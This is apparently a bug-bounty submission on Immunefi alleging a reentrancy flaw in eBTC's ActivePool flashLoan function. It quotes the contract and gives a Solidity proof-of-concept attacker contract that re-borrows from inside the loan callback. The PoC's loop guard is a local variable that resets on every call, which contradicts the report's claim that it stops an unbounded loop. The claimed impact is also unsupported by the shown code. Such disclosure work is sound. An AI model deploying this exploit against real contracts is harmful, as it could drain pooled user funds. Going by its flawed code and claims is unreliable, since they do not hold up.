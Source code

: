 
# Reentrancy on ActivePool allows users to borrow greater than Max Flash Loan

Submitted on Feb 22nd 2024 at 12:24:10 UTC by @shanb1605 for [Boost | eBTC](https://immunefi.com/bounty/ebtc-boost/)

Report ID: #28605

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/ActivePool.sol

Impacts:
- Smart contract unable to operate due to lack of token funds
- Temporary freezing of funds for at least 15 minutes
- Bypassing Max Limit of Flash Loan amount

## Description
## Brief/Intro
The `flashLoan()` allows users to borrow collateral on Active Pool. The amount that can be borrowed is limited to `maxFlashLoan(token)` means one can borrow within the maximum limit of the amount. This limit can be bypassed with a reentrant call on the `flashLoan()` function. 

## Vulnerability Details
The ActivePool contract misses reentrancy protection on `flashLoan()` which leads to borrowing over the max borrow limit of the token.
```solidity
    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external override returns (bool) {
        require(amount > 0, "ActivePool: 0 Amount");
        uint256 fee = flashFee(token, amount); // NOTE: Check for `token` is implicit in the requires above // also checks for paused
        require(amount <= maxFlashLoan(token), "ActivePool: Too much");

        uint256 amountWithFee = amount + fee;
        uint256 oldRate = collateral.getPooledEthByShares(DECIMAL_PRECISION);

        collateral.transfer(address(receiver), amount);

        require(
            receiver.onFlashLoan(msg.sender, token, amount, fee, data) == FLASH_SUCCESS_VALUE,
            "ActivePool: IERC3156: Callback failed"
        );

        collateral.transferFrom(address(receiver), address(this), amountWithFee);

        collateral.transfer(feeRecipientAddress, fee);

        require(
            collateral.balanceOf(address(this)) >= collateral.getPooledEthByShares(systemCollShares),
            "ActivePool: Must repay Balance"
        );
        require(
            collateral.sharesOf(address(this)) >= systemCollShares,
            "ActivePool: Must repay Share"
        );
        require(
            collateral.getPooledEthByShares(DECIMAL_PRECISION) == oldRate,
            "ActivePool: Should keep same collateral share rate"
        );

        emit FlashLoanSuccess(address(receiver), token, amount, fee);

        return true;
    }
```

## Impact Details
Bypass the max borrow amount and borrow until the Pool rans out of collateral.

## References
MakerDao has Reentrancy Protection on the FlashLoan module:
https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L74

https://github.com/makerdao/dss-flash/blob/9d492aa6148c35f568400a1ab85cd6df43b2ccc8/src/flash.sol#L137



## Proof of Concept
```solidity
pragma solidity ^0.8.0;

interface ActivePool {
    function flashLoan(address receiver,address token,uint256 amount,bytes calldata data) external;
}

contract FlashLoan_Receiver {
    bytes32 public constant FLASH_SUCCESS_VALUE = keccak256("ERC3156FlashBorrower.onFlashLoan");

    function call_Flashloan() external {
        ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
    }

    function onFlashLoan(address,address,uint256,uint256,bytes memory) external returns(bytes32) {
        some_actions();
        return FLASH_SUCCESS_VALUE;
    }

    function some_actions() internal {
        bool attack_done;
        if(!attack_done) {
            attack_done = true;
            ActivePool(address(1)).flashLoan(address(this), address(0xeee),12301300,"");
        }
    }

}
```

* First `call_Flashloan()` is executed to borrow max amount of tokens.
* Inside `onFlashLoan` `some_actions()` will executed to borrow again the collateral from ActivePool.
* It sets `attack_done = true` to prevent an unbounded loop. 
* Further actions will be carried out with the Flash Loan amount.